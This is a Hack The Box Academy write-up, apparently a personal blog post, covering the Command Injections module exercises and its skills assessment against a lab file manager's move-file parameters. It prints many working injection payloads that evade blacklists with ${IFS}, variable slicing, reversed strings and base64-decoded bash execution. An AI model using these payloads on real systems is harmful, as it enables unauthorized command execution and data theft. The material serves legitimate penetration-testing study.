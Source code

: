 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Command Injections"
description: "Follow this comprehensive walkthrough of the Hack The Box Academy Command Injection Skills Assessment. Master command injection techniques to exploit vulnerable web applications with expert guidance from Zwarts Sec, perfect for boosting your penetration testing skills and preparing for HTB challenges."
date:   2024-10-19 13:32
image:  /images/htb/command-injection/logo.png
tags:   [command-injection,cbbh]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/109/section/1031">Command Injection</a><br/>
<a href="https://jacozwarts.github.io/images/htb/command-injection/Command_Injections_Module_Cheat_Sheet.pdf">Command Injection - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space">PayloadsAllTheThings - Command Injection - Bypass without Space</a>

<hr/>

### Bypassing Other Blacklisted Characters - Exercises
#### Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?
A gotcha I ran into was I didn't add a `space` between the `;` and command I'm waas trying to execute e.g.
`Incorrect payload: 127.0.0.1${LS_COLORS:10:1}$(rev<<<'imaohw')` <br/><br/>
`Correct payload with a encoded \n (%0a)`
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'imaohw')
```
![Bypassing other blacklisted characters exercise gotcha](/images/htb/command-injection/bypassing-other-blacklisted-characters-gotcha.png)

#### Final payload:
Initially, I tried the following command but didn't retrieve the user in `/home`: `127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}%0a${PATH:0:1}home`. The issue stemmed from using the encoded newline character (`%0a`) immediately after `{ls,-la}`, which caused the command to execute incorrectly.

`Correct payload:`
```
127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}${IFS}${PATH:0:1}home
```
<hr/>

### Bypassing Blacklisted Commands
#### Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'tac')${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
<hr/>

### Advanced Command Obfuscation

#### Exercise: Can you test the below command to see if it works on your Linux VM, and then try to avoid using filtered characters to get it working on the web application?
`$(a="WhOaMi";printf %s "${a,,}")`<br/><br/>
First, we tested individual characters to identify which ones were filtered, such as the semicolon (`;`), space, pipe (`|`), ampersand (`&`), etc. In our case, all of these characters were blocked except for the newline character (`%0a`). To proceed, we needed to modify our payload to avoid using these filtered characters. Another solution is to `Base64 encode` the payload to bypass the filtering<br/><br/>

**Updated command without Base64 encoding:**
```
127.0.0.1%0a$(a="WhOaMi"%0aprintf${IFS}%s${IFS}"${a,,}")
```
**Updated command with Base64 encoding:**
```
127.0.0.1%0abash<<<$(base64%09-d<<<JChhPSJXaE9hTWkiO3ByaW50ZiAlcyAiJHthLCx9Iik=)
```

#### Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1
**Execute the below command to base64 encode the payload:**
```
echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64
```

```
127.0.0.1127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```
<hr/>

## Skills Assessment
><b>Overview:</b>
You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.
<br/><br/>
Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

### What is the content of '/flag.txt'?
Start by opening the target in your browser and ensure Burp Suite is intercepting all requests. Log in with the provided credentials: `guest:guest`.
![Login](/images/htb/command-injection/command-injection-skills-assessment-login.png)

Upon examining the target’s features, I identified the following functionalities:
- File Manager
![File Manager](/images/htb/command-injection/command-injection-skills-assessment-file-manager.png)
- Search Functionality
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-search.png)
- Advanced Search
![Advanced Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-advanced-search.png)
- View File
![View File](/images/htb/command-injection/command-injection-skills-assessment-view-file.png)
- Move File
![Move File](/images/htb/command-injection/command-injection-skills-assessment-move-file.png)
- Direct Link
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-direct-link.png)
- Download File
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-download-file.png)

I then intercepted and analyzed these features’ requests through Burp Suite, where I observed that each request has varying parameters, such as:

```
GET /index.php?to=&view=51459716.txt&quickView=1
```
```
GET /index.php?to=&from=51459716.txt
```
```
GET /index.php?to=&dl=51459716.txt
```
```
POST /index.php?to=

...

ajax=true&content=514&path=.&type=search
```
```
GET /index.php?to=&from=605311066.txt
```
```
GET /index.php?to=&from=605311066.txt&finish=1&move=1
```
### Testing for Command Injection
I tested the parameters mentioned above for potential command injection vulnerabilities and found that the `to` and `from` parameters in the 'Move File' request are vulnerable. The next step is to identify which injection operators are allowed. You can refer to the command injection <a href="https://jacozwarts.github.io/images/htb/command-injection/Command_Injections_Module_Cheat_Sheet.pdf">Cheat Sheet</a> to test various operators.

![Testing To Parameter](/images/htb/command-injection/command-injection-skills-assessment-move-file-to-parameter.png)

![Testing From Parameter](/images/htb/command-injection/command-injection-skills-assessment-move-file-from-paramter.png)

![Testing Operator](/images/htb/command-injection/comman-injection-skills-assessment-injection-operators.png)

I discovered that the operator `%26%26` is accepted. Based on the error message, it’s clear the server is using the mv command.
![Valid Operator](/images/htb/command-injection/command-injection-skills-assessment-valid-injection-operator.png)
### Command Injection Payload
```
%26%26whoami
```
![Whoami Command is blocked](/images/htb/command-injection/command-injection-skills-assessment-whoami-blocked.png)

Since whoami is blocked, I’ll encode it using base64. Here’s how to encode the whoami command:

```
echo -n "whoami" | base64
```
**Then replace the space character with a tab (%09):**
```
bash<<<$(base64%09-d<<<"d2hvYW1p")
```
When running this, I encountered the error: missing destination. So, I’ll apply the payload in the `to` parameter as follows:
![Missing Destination](/images/htb/command-injection/command-injection-skills-assessment-missing-destination-error.png)

```
/index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=696212415.txt&finish=1&move=1
```
### Gotcha:
Once you move a file, it cannot be moved again. To get around this, you’ll need to change the filename in the `from` parameter.

![Whoami Result](/images/htb/command-injection/command-injection-skills-assessment-whoami-result.png)

Now that we’ve successfully executed the `whoami` command, the next goal is to read the directory contents using `ls -la`. First, base64 encode the command:

```
echo -n "ls -la" | base64
```

```
bash<<<$(base64%09-d<<<"bHMgLWxh")
```
Update the `from` filename from `696212415.txt` to `787113764.txt` and rerun the payload.

![Read files in directory](/images/htb/command-injection/command-injection-skills-assessment-read-files-result.png)

### Reading the flag.txt File
Finally, let’s try to read the `flag.txt` file. Base64 encode the following:
```
echo -n "cat ${PATH:0:1}flag.txt" | base64
```
```
bash<<<$(base64%09-d<<<"Y2F0IC9mbGFnLnR4dA==")
```
**Change the `from` file name and test the payload.**
![Reading flag.txt content](/images/htb/command-injection/command-injection-skills-assessment-flag-result.png)
<hr/>